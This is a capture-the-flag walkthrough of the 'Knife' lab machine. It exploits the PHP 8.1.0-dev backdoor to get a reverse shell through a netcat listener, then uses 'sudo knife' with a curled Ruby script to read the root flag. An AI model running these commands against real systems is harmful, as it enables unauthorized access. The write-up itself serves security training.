








# Knife


**Tools: nmap, whatweb, netcat.**

We begin with the nmap scan:  
`nmap -Pn -sC -sV --min-rate=10000 -p- 10.10.10.242`



We can see that port 80 is open, but upon checking the webpage there's nothing important, not even in the source. A fuzzer also won't find anything useful.  
With the whatweb tool, we're able to see that the webpage uses PHP 8.1.0-dev, a version that had a backdoor installed through the official GitHub repository, and this vulnerability allows an attacker to perform a Remote Code Execution (RCE).



The exploit at the exploit-db page was causing me some trouble during my attempts to spawn a fully interactive shell, start a reverse shell or escalate my privileges, so I found another exploit at [**this github repo**](https://github.com/flast101/php-8.1.0-dev-backdoor-rce).



Start a netcat listener in your machine:  
`nc -vnlp 9001`

Then in another terminal window we can run the exploit with the command:  
`python3 revshell_php_8.1.0-dev.py <targetURL> <hostIP> <port>`



With this, we get a reverse shell as the user 'james'. We can get the user flag from this account's home directory.  
`cat /home/james/user.txt`



Next up, with 'sudo -l' we see that the user can run the 'knife' binary with sudo privileges. If we try to run it, we get the tool's help, and after reading through the options, we see this one:



We can create a Ruby script to either escalate our privileges, or, in this case, read the root flag right away:  
`puts File.read("/root/root.txt")`

Save it to a ruby file (.rb)  

I started a python http server in my machine:  
`python3 -m http.server 80`



Now we simply need to download the file with curl and then run the command to execute the script in the box:  
```
curl <hostIP>/rb.rb > /home/james/rb.rb  
sudo knife /home/james/rb.rb
```



And the root flag is ours.
